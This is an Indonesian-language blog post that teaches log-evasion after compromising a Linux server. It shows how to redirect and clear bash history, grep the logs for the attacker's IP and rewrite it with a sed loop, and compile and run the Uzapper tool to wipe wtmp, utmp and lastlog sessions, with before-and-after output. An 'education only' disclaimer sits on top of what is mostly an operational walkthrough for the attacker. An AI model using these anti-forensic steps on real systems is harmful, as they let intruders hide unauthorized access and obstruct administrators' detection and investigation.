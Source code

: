```yaml
---
layout: post
title: Covering Track! Menjadi Hantu pada Linux Server
categories: [Covering Track]
author: Novran Faathir
---
```


Sesuatu hal yang "SULIT TERDETEKSI" itu memanglah menarik, sama seperti melakukan Covering Tracks.

**Covering Track adalah** upaya untuk menghilangkan jejak setelah melakukan penyerangan terhadap aplikasi maupun Server.

Pada dasarnya seorang Administrator itu akan selalu berurusan dengan yang namanya Log File dan tentunya sebagai Attacker pun harus menghindar dari Log File tersebut.

### REMEMBER: For Education Purpose Only!

Artikel ini hanya untuk pembelajaran saja dan untuk kedepannya mungkin kami akan menulis tentang solusi untuk `Anti Covering Track`-nya juga.

Peran kita disini yaitu sebagai "Attacker" yang sudah melakukan Take-over sebuah Server yang menggunakan sistem operasi Linux, kemudian kita masuk kedalam Shell dari Server tersebut.

# BASH History

**HISTFILE**

HISTFILE adalah sebuah Environment Variable pada Linux yang digunakan untuk mengarahkan sebuah file history yang berisi command-command yang sebelumnya sudah pernah dieksekusi oleh User.

```
user1@linux:~$ echo $HISTFILE
/home/user1/.bash_history
```

```
user1@linux:~$ cat /home/user1/.bash_history
sudo apt-get clean
sudo vi /etc/apt/sources.list
sudo apt-get update
...
```

Supaya aktifitas kita sebagai Attacker tidak tercatat, lebih baik kita arahkan ke `/dev/null`.
```
user1@linux:~$ HISTFILE=/dev/null
user1@linux:~$ echo $HISTFILE
/dev/null
```

Namun ada langkah frustasi, kalau kita lupa mengarahkan BASH History sebelumnya (di-awal).

**Clean History**

```
user1@linux:~$ history -c
```

# Clean Your Public IP from Log File

Hal ini dapat dilakukan kalau kalian memiliki hak akses level "root" karena disini kita akan memanipulasi Log File tentunya.

Pertama-tama ketahuilah IP Public kita sendiri, kita dapat melihatnya melalui website:

<https://www.whatismyip.com/>

**Mencari Log File yang mencatat IP kita**

```
root@linux:~# grep -Rn 'YOUR IP' /var/log/ 2> /dev/null
```

Atau gunakan command di bawah ini untuk mencari LOG keseluruhan (dari root):

```
root@linux:~# grep -Rn 'YOUR IP' / 2> /dev/null
```

**NOTE:** Ubah `YOUR IP` menjadi IP Address kalian.

**Manipulasi IP Address pada Log File**

`Mengapa tidak dihapus saja LOG-nya?`

Jika Log File kita hapus, itu adalah tindakan yang gegabah dan tidak menutup kemungkinan `Administrator` akan melakukan eskalasi ke pihak `Provider`.

**Manipulasi Log**

Disini kita akan menggunakan perintah `sed`.

Contoh:
```
root@linux:~# sed 's/KATA ASLI/KATA GANTI/g' file
```

Supaya lebih cepat memanipulasi IP, kita jadikan script seperti di bawah ini:

```
for LOGFILE in $(grep -Rn 'YOUR IP' / 2> /dev/null | awk -F ':' '{print $1}' | sort -V | uniq)
do
sed 's/YOUR IP/FAKE IP/g' $LOGFILE
done
```

# Stealth from WTMP, UTMP, and Lastlog

- WTMP = mencatat setiap ada yang login/logoff
- UTMP = mencatat siapa yang sedang melakukan akses saat ini
- Lastlog = mencatat source address user yang melakukan login terakhir

**Uzapper Tool**

Tool ini digunakan untuk menghapus log umum pada sistem operasi Solaris, SunOS, IRIX, Linux, FreeBSD.

Kalian dapat unduh pada link di bawah ini:

- <https://packetstormsecurity.com/files/16378/uzapper.c.html>

Untuk melihat siapa yang sedang masuk dan melihat apa yang sedang mereka lakukan (berdasarkan sesi), kalian dapat menggunakan perintah `w`.

```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
  user1 pts/2 ???  2:52am 1                -sh
```

Compile Uzapper:
```
root@linux:~# gcc uzapper.c -o uzapper
```

Jalankan Uzapper:
```
root@linux:~# ./uzapper user1
```

Periksa kembali sesi yang aktif:
```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
```

**user1** hilang, karena sudah di-wipe menggunakan Uzapper.

# Done!
Artikel tentang Covering Track ini hanya untuk pelajaran saja, pasti banyak yang bertanya-tanya `Kenapa gak pake VPN aja? Biar gak ribet!`.

Silakan dijawab sendiri :)

Terima kasih.
